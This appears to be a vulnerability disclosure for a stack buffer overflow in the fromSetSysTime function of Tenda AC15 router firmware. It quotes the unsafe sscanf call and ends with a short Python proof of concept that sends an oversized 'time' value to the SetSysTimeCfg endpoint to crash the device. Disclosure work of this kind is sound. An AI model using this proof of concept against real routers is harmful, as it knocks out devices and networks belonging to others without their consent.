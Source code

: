 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `fromSetSysTime` function. The `v20` variable receives the `time` parameter from a POST request and is assigned to `v7~v12` by `sscanf`. However, since the user can control the input of `time`, the statement `sscanf(v20, "%[^-]-%[^-]-%[^ ] %[^:]:%[^:]:%s", v12, v11, v10, v9, v8, v7);` can cause a buffer overflow. The user-provided  `list` can exceed the capacity of the `v7~v12` array, triggering this security vulnerability.

![image-20240316222103120](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222103120.png)

![image-20240316222047423](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222047423.png)

![image-20240316222026197](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222026197.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'timeType':'manual',
        'time':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316224625801](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316224625801.png)
